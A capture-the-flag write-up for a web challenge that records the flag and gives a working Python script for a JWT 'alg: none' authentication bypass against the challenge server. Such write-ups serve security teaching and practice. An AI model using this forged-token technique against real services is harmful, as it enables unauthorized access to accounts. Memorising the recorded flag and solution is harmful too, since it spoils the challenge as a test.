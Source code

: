 ```yaml
---
title: Theadmin
category: "Web Exploitation"
tags: 
draft: true
completedDuringEvent: true
submitted: true
flag: QUESTCON{J3T_4lg0r1thm_15_vuln3r4bl3_70_n0n3}
---
```

## Scenario

> The Professor has left a vulnerable authentication system. Can you exploit it and gain admin not just using admin? Sometimes the simplest loopholes can lead to the biggest breakthroughs. Its simple but **none** of you could figure out.

## Solution

You need to send a POST request to the `https://<url>/auth` endpoint with the username `admin`. The server will respond with a JSON object containing a token. This token is a JSON Web Token (JWT) that is base64 encoded and consists of three parts separated by a dot (`.`): the header, the payload, and the signature. You should create a new header with the algorithm set to `none` and the type set to `JWT`. Then, decode the payload from the token and create a new payload. After that, encode the new header and the new payload separately. Finally, send a GET request to the `https://<url>/access` endpoint with the new header and the new payload.

Here is the Python script to exploit the vulnerability:

```py
import requests
import base64

auth_url = "https://questcon-theadmin.chals.io/auth"
access_url = "https://questcon-theadmin.chals.io/access"

response = requests.post(auth_url, json={"username": "admin"})
response_header = b'{"alg": "none", "typ": "JWT"}'
response_payload = base64.b64decode(response.json()["token"].split(".")[1] + "==")

headers = {"Authorization": f"Bearer {base64.b64encode(response_header).decode().rstrip('=')}.{base64.b64encode(response_payload).decode().rstrip('=')}."}
response = requests.get(access_url, headers=headers)
print(response.text)
```

